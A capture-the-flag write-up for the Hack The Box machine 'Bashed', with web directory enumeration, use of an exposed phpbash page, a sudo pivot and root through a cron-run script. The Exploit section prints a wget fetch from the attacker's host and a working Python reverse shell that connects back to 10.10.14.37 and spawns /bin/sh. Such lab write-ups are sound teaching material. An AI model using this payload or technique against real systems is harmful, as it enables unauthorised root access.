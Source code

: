 # Bashed

### Machine Info
![](screenshots/bashed.png)

#### Nmap

![](screenshots/nmap.png)

##### HTTP (Port 80)

Index page:
![](screenshots/index.png)


Click the phpbash and check `10.10.10.68/single.html` page:
![](screenshots/single.png)

I checked that `github` address and it is about `phpbash` and I just read the php code and usage:
![](screenshots/usage.png)


I feel like we there should be `phpbash.php` or `phpbash.min.php` in somewhere. Let's enumerate more by using `gobuster`:

![](screenshots/gobuster.png)

And from the `http://10.10.10.68/dev`, we can find those 2 `phpbash` files:
![](screenshots/dev.png)


Execute `phpbash.min.php` and get a low user shell:
![](screenshots/low_shell.png)

For better interactive, I just created reverse shell using:
![](screenshots/reverse.png)

`nc` listener on attacking side:
![](screenshots/reverse_shell.png)


#### Privilege Escalation

Before enumeration, just check for `sudo`:
![](screenshots/sudo.png)

User `www-data` can run any command with user `scriptmanager`. Let's get shell with user `scriptmanager`:

![](screenshots/scriptmanager.png)


And from the `/scripts` directory we can get two files:
![](screenshots/files.png)

But we can see that the file `test.txt` is owned by user `root` not `scriptmanager`. And moreover the file `test.txt` is changing every 1 minute:

![](screenshots/cronjob.png)


#### Exploit

Let's just replace that `test.py` with our malicious program and it will be executed by `root` privilege.

Simple Python Reverse Shell:</br>
Just create `test.py` and transfer to victim machine.
```
scriptmanager@bashed:/scripts$ mv test.py .test.py
scriptmanager@bashed:/scripts$ wget http://10.10.14.37:8080/test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.37",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])    
```

And just wait for a minute and from `nc` listener:
![](screenshots/root_shell.png)

And you can get `root.txt` :)

